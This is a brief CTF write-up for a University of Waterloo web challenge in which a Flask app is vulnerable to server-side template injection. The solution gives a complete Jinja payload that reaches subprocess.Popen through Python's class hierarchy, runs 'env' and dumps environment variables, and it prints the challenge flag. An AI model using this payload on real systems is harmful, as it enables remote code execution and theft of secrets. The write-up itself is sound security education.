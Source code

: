 # web / web3

> Points: 3156

## Question


> <https://ctf.csclub.uwaterloo.ca/web/5/>

## Solution

We are provided a flask application which is vulnerable to SSTI. Using the method resolution order and subclasses, we can go overkill and locate the `<subprocess.Popen>` class to obtain remote code execution. Now, we can check the environment variables via `env` and obtain the flag. The query url looks like:

```
https://ctf.csclub.uwaterloo.ca/web/5/query/{{''.__class__.mro()[1].__subclasses__()[363]('env',shell=True,stdout=-1).communicate()[0].strip().decode()}}
```


### Flag

`uwctf{bb13f2e74b255934}`
